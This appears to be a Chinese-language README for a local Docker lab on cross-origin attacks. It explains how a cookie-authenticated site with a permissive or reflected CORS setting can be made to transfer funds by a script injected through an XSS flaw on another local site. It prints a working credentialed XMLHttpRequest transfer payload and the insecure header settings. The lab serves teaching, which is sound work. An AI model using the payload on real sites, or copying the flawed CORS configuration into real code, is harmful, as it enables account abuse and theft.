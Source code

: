 # CORS 配置错误导致跨域攻击

## 启动环境

```bash
docker compose up
```

* http://127.0.0.1:9090 
存在跨域配置错误的网站，网站使用 Cookie 来校验用户身份
此网站有三个功能：
1. 注册用户
访问 `/login?username=admin` 即可注册并登录一个名为 `admin` 的用户，新建的用户默认有 500 余额
2. 查看余额
访问 `/view` 可查看当前用户的余额
3. 转账
已登录用户访问 `/transfer?to=guest` 可向 `guest` 用户转账 100


* http://127.0.0.1:60012
存在 XSS 漏洞的网站，攻击者可利用 XSS 漏洞在页面上注入任意代码，并诱导用户访问


## 漏洞复现
当用户登录了 `127.0.0.1:9090` 并且未退出，攻击者可以在 `127.0.0.1:60012` 上注入这样一段代码
```javascript
<script>
  const xhr = new XMLHttpRequest();
  xhr.open("POST", "http://127.0.0.1:9090/transfer");
  xhr.setRequestHeader("Content-Type", "application/json");
  xhr.withCredentials = true;
  xhr.send(JSON.stringify({to:"guest"}));
</script>
```
当用户访问 `127.0.0.1:60012` 的时候，这段代码将向`127.0.0.1:9090`发送一个跨域的转账请求。
如果 `127.0.0.1:9090` 存在错误的跨域配置，网站将遭受跨域请求攻击。

常见的错误跨域配置：
```javascript
// 允许所有跨域访问
res.setHeader("Access-Control-Allow-Origin", "*")
// 同样允许所有跨域访问，但是浏览器端不容易观察到
// 可以使用扫描器扫描
res.setHeader("Access-Control-Allow-Origin", req.header("origin"))
```

发送跨域请求时会先发送一个 `Preflight` 请求进行检查，会在 `Origin` 头中携带当前域的信息，可以看到反射型跨域配置直接返回了 `Origin` 头的内容。
![](./doc/img/options.png)

跨域检查通过后成功发起转账请求
![](./doc/img/xss_to_transfer.png)

查看 guest 用户账户发现多了 100 元
![](./doc/img/result.png)